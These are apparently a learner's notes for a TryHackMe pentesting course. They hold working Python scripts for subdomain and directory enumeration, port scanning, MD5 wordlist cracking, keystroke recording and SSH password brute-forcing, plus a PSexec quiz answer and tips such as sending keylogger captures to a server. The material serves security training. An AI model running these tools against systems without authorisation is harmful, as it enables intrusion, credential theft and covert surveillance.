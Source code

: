 # Python for Pentesters
> https://tryhackme.com/room/pythonforcybersecurity


## subdomain enumerator
```py
import requests 
import sys 

sub_list = open("subdomains.txt").read() 
subdoms = sub_list.splitlines()

for sub in subdoms:
    sub_domains = f"http://{sub}.{sys.argv[1]}" 

    try:
        requests.get(sub_domains)
    
    except requests.ConnectionError: 
        pass
    
    else:
        print("Valid domain: ",sub_domains)   

```


## Directory Enumeration
```py

import requests 
import sys 

sub_list = open("wordlist.txt").read() 
directories = sub_list.splitlines()

for dir in directories:
    dir_enum = f"http://{sys.argv[1]}/{dir}.html" 
    r = requests.get(dir_enum)
    if r.status_code==404: 
        pass
    else:
        print("Valid directory:" ,dir_enum)

# python3 dir_enum.py 10.10.10.10
```



## Port Scanner

```py
import sys
import socket
import pyfiglet


ascii_banner = pyfiglet.figlet_format("TryHackMe \n Python 4 Pentesters \nPort Scanner")
print(ascii_banner)


ip = '192.168.1.6' 
open_ports =[] 

ports = range(1, 65535)


def probe_port(ip, port, result = 1): 
  try: 
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    sock.settimeout(0.5) 
    r = sock.connect_ex((ip, port))   
    if r == 0: 
      result = r 
    sock.close() 
  except Exception as e: 
    pass 
  return result


for port in ports: 
    sys.stdout.flush() 
    response = probe_port(ip, port) 
    if response == 0: 
        open_ports.append(port) 
    

if open_ports: 
  print ("Open Ports are: ") 
  print (sorted(open_ports)) 
else: 
  print ("Looks like no ports are open :(")
```


## File Downloader
```py

import requests

url = 'https://assets.tryhackme.com/img/THMlogo.png'
r = requests.get(url, allow_redirects=True)
open('THMlogo.png', 'wb').write(r.content)

```

notes:
PSexec allow system administrators to run commands on remote Windows systems. We see that PSexec is also used in cyber attacks as it is usually not detected by antivirus software. You can learn more about PSexec here and read this blogpost about its use by attackers

references:
- https://learn.microsoft.com/en-us/sysinternals/downloads/psexec
- https://www.praetorian.com/blog/threat-hunting-how-to-detect-psexec/
- https://medium.com/@wintersoldiers/psexec-the-super-tool-543b7751610c


Answers:
- What step of the Unified Cyber Kill Chain can PSexec be used in?
**Lateral Movement**

## Hash Cracker

```py
import hashlib
import pyfiglet

ascii_banner = pyfiglet.figlet_format("TryHackMe \n Python 4 Pentesters \n HASH CRACKER for MD 5")
print(ascii_banner)

wordlist_location = str(input('Enter wordlist file location: '))
hash_input = str(input('Enter hash to be cracked: '))

with open(wordlist_location, 'r') as file:
    for line in file.readlines():
        hash_ob = hashlib.md5(line.strip().encode())
        hashed_pass = hash_ob.hexdigest()
        if hashed_pass == hash_input:
            print('Found cleartext password! ' + line.strip())
            exit(0)
```
This script will require two inputs: the location of the wordlist and the hash value.

As you probably know, hash values can not be cracked as they do not contain the cleartext value. Unlike encrypted values that can be "reversed" (e.g. decrypted), cleartext values for hashes can only be found starting with a list of potential cleartext values. A simplified process can be seen below;

- You retrieve the hash value "eccbc87e4b5ce2fe28308fd9f2a7baf3" from a database, which you suspect is the hash for a number between 1 and 5.
- You create a file with possible cleartext values (numbers from 1 to 5)
- You generate a list of hashes for values in the cleartext list (Hash values for numbers between 1 and 5)
- You compare the generated hash with the hash value at hand (Matches hash value of the number 3)


## KeyLoggers
```py
# pip3 install keyboard
# Must be Sudo, must have access/permission to accessibility

import keyboard
keys = keyboard.record(until ='ENTER')
print("[+] Recorded Key Strokes")
print(keys)
keyboard.play(keys)
```

## SSH Bruteforce

```py
import paramiko
import sys
import os

target = str(input('Please enter target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter location of the password file: '))

def ssh_connect(password, code=0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(target, port=22, username=username, password=password)
    except paramiko.AuthenticationException:
        code = 1
    ssh.close()
    return code

with open(password_file, 'r') as file:
    for line in file.readlines():
        password = line.strip()
        
        try:
            response = ssh_connect(password)

            if response == 0:
                 print('password found: '+ password)
                 exit(0)
            elif response == 1: 
                print('no luck')
        except Exception as e:
            print(e)
        pass

input_file.close()
```



## Extra Bonuses
Based on what we have covered in this room, here are a few suggestions about how you could expand these tools or start building your own using Python:

- Use DNS requests to enumerate potential subdomains
- Build the keylogger to send the capture keystrokes to a server you built using Python
- Grab the banner of services running on open ports
- Crawl the target website to download .js library files included
- Try to build a Windows executable for each and see if they work as stand-alone applications on a Windows target
- Implement threading in enumeration and brute-forcing scripts to make them run faster
